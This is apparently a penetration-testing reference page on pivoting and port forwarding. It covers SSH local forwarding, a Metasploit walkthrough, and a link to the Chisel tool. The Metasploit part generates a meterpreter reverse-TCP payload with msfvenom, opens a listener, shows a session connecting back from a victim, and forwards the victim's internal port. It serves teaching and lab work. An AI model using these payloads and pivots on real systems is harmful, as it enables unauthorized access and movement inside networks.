 ```yaml
---
title: Pivot & Port forwarding
description: Port forwarding and pivot.
---
```


# Pivot & Port forwarding

## Port forwarding

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

### Using SSH

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Using metasploit (meterpreter)

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

### Using chisel

- [Chisel](https://github.com/jpillora/chisel)
